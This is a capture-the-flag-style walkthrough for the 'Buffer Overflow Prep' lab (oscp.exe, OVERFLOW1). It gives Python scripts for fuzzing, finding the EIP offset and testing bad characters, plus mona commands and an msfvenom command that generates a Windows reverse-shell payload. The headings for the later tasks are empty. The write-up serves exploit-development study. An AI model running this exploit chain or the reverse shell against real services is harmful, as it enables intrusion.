 # Buffer Overflow Prep

### oscp.exe - OVERFLOW1
First of all, run Immunity Debugger as an Administrator and open `oscp.exe`. Then on the bar below, type `!mona config -set workingfolder c:\mona\%p` and press enter.<br />
Now the first thing I'm going to do is to find more or less how many bytes I need to send to crash the program. So I'm going to use the following script: 

#!/usr/bin/env python3

    import socket, time, sys
    
    ip = "10.10.70.48"
    
    port = 1337
    timeout = 5
    prefix = "OVERFLOW1 "
    
    string = prefix + "A" * 100
    
    while True:
      try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
          s.settimeout(timeout)
          s.connect((ip, port))
          s.recv(1024)
          print("Fuzzing with {} bytes".format(len(string) + len(prefix)))
          s.send(bytes(string, "latin-1"))
          s.recv(1024)
      except:
        print("Fuzzing crashed at {} bytes".format(len(string) + len(prefix)))
        sys.exit(0)
      string += 100 * "A"
      time.sleep(1)
(Change the IP address according to your instance).<br />
![image](https://github.com/user-attachments/assets/6bdf948e-cdbd-4e8a-ae36-a37dd678f4d9)<br />
I see that the program crashes with 2020 bytes. So now I want to know the offset, the exact number of bytes I need to crash the program i.e. to overflow the EIP. So I'm going to run `msf-pattern_create -l 2300 > pattern.txt`. And now I'll use the following script to find the right offset: 

    import socket
    
    ip = '10.10.70.48'
    port = 1337 
    
    # Change pattern here
    pattern = 'Aa0Aa1.........4Cy5Cy'
    
    string = 'OVERFLOW1 ' + pattern
    
    #send it all
    try: 
            with socket.socket() as s:
                    s.connect((ip,port))
                    print("Sending pattern...")
                    s.send(bytes(string,'latin-1'))
    except:
            print("Failed to connect")
First I need to re-run the program, so click on the following buttons in order: <br />
![image](https://github.com/user-attachments/assets/cf80bf54-9cb8-4b1a-8e1b-d4c55c5bfc68)<br />
Run the script; the program crashes again, this time I'm interested in the contents of the EIP: <br />
![image](https://github.com/user-attachments/assets/f121215f-c53b-46a5-a178-a5eec73ba808)<br />
I can see it's `6F43396E`. To find the exact offset, I run `msf-pattern_offset -l 2300 -q 6F43396E`:<br />
![image](https://github.com/user-attachments/assets/3ce864e3-55a2-41b8-bff2-e527ec2c8d53)<br />
So the offset is `1978`. Now the idea is to overflow the buffer with some shellcode, and overflow the EIP with an address that points to that shellcode. But first, I need to find the bad characters. Those are characters that are not valid for the target machine, and I need to make sure that the shellcode doesn't contain any of them. <br />
First of all, I use the following script to generate a list of characters in hex: 
    
    for x in range(1, 256):
      print("\\x" + "{:02x}".format(x), end='')
    print()

So now I execute the following python code:

    import socket
    
    ip = '10.10.70.48' 
    
    port = 1337 
    
    badchar = '\x01\x02\x03...\xfd\xfe\xff'
    
    string = 'OVERFLOW1 ' + 1978*'A' + 4*'B' + badchar
    
    try: 
            with socket.socket() as s:
                    s.connect((ip,port))
                    print("Sending badchars...")
                    s.send(bytes(string,'latin-1'))
    except:
            print("Failed to connect.")
Notice that we're overwriting the EIP with 4 B's, and then sending the list of bad characters.ls
So I rerun the program and the script: <br />
![image](https://github.com/user-attachments/assets/57739da3-ab3e-4289-a258-d3c4387788dc)<br />
As shown in the image above, the EIP is overwritten with 4 Bs, and the ESP is overwritten with `01B3FA30`. Now to check bad characters, first run `!mona bytearray -b "\x00"`. This will create a file containing the list of characters in hex. Then run `!mona compare -f C:\mona\oscp\bytearray.bin -a 01B3FA30`.<br />
![image](https://github.com/user-attachments/assets/adb4df98-43e9-47b2-9819-19437d7449c2)<br />
The bad characters found by mona are `00,07,2e,a0`. So the final answer is `\x00\x07\x2e\xa0`. This is going to be useful to create the shellcode, for example:  `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=9001 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c`:<br />

### oscp.exe - OVERFLOW2

### oscp.exe - OVERFLOW3

### oscp.exe - OVERFLOW4

### oscp.exe - OVERFLOW5

### oscp.exe - OVERFLOW6

### oscp.exe - OVERFLOW7

### oscp.exe - OVERFLOW8

### oscp.exe - OVERFLOW9

### oscp.exe - OVERFLOW10
